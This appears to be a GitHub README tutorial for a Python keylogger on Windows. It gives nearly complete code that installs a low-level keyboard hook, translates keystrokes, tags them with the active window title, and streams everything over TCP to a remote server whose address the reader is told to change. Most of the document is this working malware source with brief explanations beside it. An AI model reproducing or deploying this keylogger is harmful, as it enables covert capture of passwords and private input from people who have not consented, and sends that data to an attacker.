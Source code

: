 # Keylogger with Python and Win32 API  

A keylogger captures keyboard input by setting up a low-level keyboard hook using the Windows API. This project demonstrates how to implement a keylogger in Python, sending the logged keys to a remote server.  

## References  

- [Hooks - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/winmsg/hooks)  
- [GetWindowTextA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtexta)  
- [GetWindowTextLengthA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getwindowtextlengtha)  
- [GetKeyState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeystate)  
- [GetKeyboardState - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getkeyboardstate)  
- [ToAscii - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-toascii)  
- [CallNextHookEx - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-callnexthookex)  
- [SetWindowsHookExA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-setwindowshookexa)  
- [GetMessageA - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getmessagea)  
- [HOOKPROC - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nc-winuser-hookproc)  
- [KBDLLHOOKSTRUCT - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/ns-winuser-kbdllhookstruct)  
- [GetForegroundWindow - Microsoft Documentation](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-getforegroundwindow)  
- [ctypes CFUNCTYPE - Python Documentation](https://docs.python.org/3/library/ctypes.html#ctypes.CFUNCTYPE)  


## Overview of Hooks  

Per microsoft:  

_A point in the system message-handling mechanism where an application can install a subroutine to monitor the message traffic in the system and process certain types of messages before they reach the target window procedure._

This program leverages the `WH_KEYBOARD_LL` hook type to monitor low-level keyboard input events.  


## Building the script

__Imports and Constants__

The script begins by importing the necessary modules and defining constants related to the Windows API.  

```python
import sys
import socket
from ctypes import *
from ctypes import wintypes
```

The constants and types include:  

- **`WH_KEYBOARD_LL`**: Installs a hook procedure to monitor low-level keyboard events.  
- **`WM_KEYDOWN`**: Indicates a key has been pressed.  
- **`HOOKPROC`**: Defines the callback function type used with hooks.  
- **`WM_RETURN`**: Represents the Enter/Return key on the keyboard.  
- **`WM_SHIFT`**: Represents the Shift key, used to modify key inputs such as uppercase letters or symbols.  
- **`lpKeyState`**: The 256-byte array that receives the status data for each virtual key.


```python
user32 = windll.user32
lpKeyState = wintypes.BYTE * 256

IP_ADDR = "127.0.0.1"  # change this line
PORT = 9001            # change this line.

LRESULT = c_long
WH_KEYBOARD_LL = 13
WM_KEYDOWN = 0x0100
WM_RETURN = 0x0D
WM_SHIFT = 0x10

HOOKPROC = CFUNCTYPE(
    LRESULT,
    wintypes.INT,
    wintypes.WPARAM,
    wintypes.LPARAM
)
```

__Windows API Function Definitions__

To interact with the Windows API, the script declares and configures API functions such as `GetWindowTextA`, `CallNextHookEx`, and `GetMessageA`. Each function's argument types and return types are explicitly specified using `ctypes` for type safety and correct behavior.

```ruby
GetWindowTextA = user32.GetWindowTextA
GetWindowTextA.argtypes = (
    wintypes.HANDLE,
    wintypes.LPSTR,
    wintypes.INT
)
GetWindowTextA.restype = wintypes.INT

# [...]
```

Similarly, other functions such as `GetForegroundWindow`, `SetWindowsHookExA`, `GetKeyState`, and `ToAscii` are also defined.  

__Low-Level Hook Structure__

The `KBDLLHOOKSTRUCT` structure stores information about a low-level keyboard input event, such as the virtual key code, scan code, and additional flags. This structure is populated for each intercepted keyboard event.  

```python
class KBDLLHOOKSTRUCT(Structure):
    _fields_ = [
        ("vkCode", wintypes.DWORD),
        ("scanCode", wintypes.DWORD),
        ("flags", wintypes.DWORD),
        ("time", wintypes.DWORD),
        ("dwExtraInfo", wintypes.DWORD)
    ]
```
__Get Foreground Process__

The `get_fgproc` function identifies the title of the currently active window, allowing us to associate logged keystrokes with the application in focus. It uses `GetForegroundWindow` to obtain a handle to the focused window, determines the title length using `GetWindowTextLengthA`, and retrieves the title with `GetWindowTextA`. The resulting string represents the window's title, which can be logged alongside captured keystrokes for context.

```python
def get_fgproc():
    hwnd = user32.GetForegroundWindow()
    length = user32.GetWindowTextLengthA(hwnd)
    buf = create_string_buffer(length + 1)
    user32.GetWindowTextA(hwnd, buf, length + 1)
    return buf.value
```

__Hook Callback Function__

The `hook_func` function is the core of the keylogger, processing each keyboard event. It checks for changes in the active window using `get_fgproc`. When a new window is detected, the function logs its title. The `last` variable tracks the previously active window, ensuring only new titles are sent to the server.

By interacting with the `lParam` parameter, the function identifies the key pressed and passes the event to the next hook in the chain using `CallNextHookEx`.

```python
def hook_func(nCode, wParam, lParam):
    global last
    if last != get_fgproc():
        last = get_fgproc()
        msg = "\n[!] Last foreground process -> {}\n".format(last.decode("latin-1"))
        s.send(msg.encode("latin-1"))
```

__Capturing and Logging Keystrokes__

Within `hook_func`, key presses are captured using the `KBDLLHOOKSTRUCT` structure. The key's virtual code and state are processed to determine the corresponding character using `ToAscii`. This function translates virtual key codes into ASCII characters, respecting the current keyboard layout and state.  


```python
    if wParam == WM_KEYDOWN:                             # Check if the event is a key press
        keyboard = KBDLLHOOKSTRUCT.from_address(lParam)  # Parse key details from lParam
        state = (wintypes.BYTE * 256)()                  # Create a buffer for the keyboard state
        user32.GetKeyboardState(byref(state))            # Retrieve the current keyboard state
        buf = (c_ushort * 1)()                           # Buffer for the resulting character
        n = user32.ToAscii(                              # Convert virtual key to ASCII
            keyboard.vkCode,
            keyboard.scanCode,
            state,
            buf,
            0
        )

        if n > 0:                             # Check if a character was successfully converted
            if keyboard.vkCode == WM_RETURN:  # Handle the Enter key
                s.send(b"\n")
            else:
                msg = "{}".format(string_at(buf).decode("latin-1"))  # Decode the character
                s.send(msg.encode("latin-1"))                        # Send the character to the server

    return user32.CallNextHookEx(  # Pass the event to the next hook
        hook,
        nCode,
        wParam,
        lParam
    )
```


__Main Function__

The main function initializes the keylogger. It establishes a TCP connection with the server, setting up a socket for communication. Using the `SetWindowsHookExA` function, it installs a low-level keyboard hook (`WH_KEYBOARD_LL`) that invokes `hook_func` on each keyboard event. Finally, `GetMessageA` enters a message loop to process events until the program is terminated.

```python
if __name__ == "__main__":
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Create a TCP socket
        s.connect((IP_ADDR, PORT))                             # Connect to the remote server

        last = None                     # Track the last active window
        callback = HOOKPROC(hook_func)  # Define the hook callback

        hook = user32.SetWindowsHookExA(  # Install the keyboard hook
            WH_KEYBOARD_LL,
            callback,
            0,
            0
        )

        user32.GetMessageA(  # Enter the event processing loop
            byref(wintypes.MSG()),
            0,
            0,
            0
        )
    except:
        sys.exit(1)  # Exit on error
```

## Example Output

![demo](https://github.com/user-attachments/assets/f52bbb95-2716-4bab-9b1a-b5002d740f98)
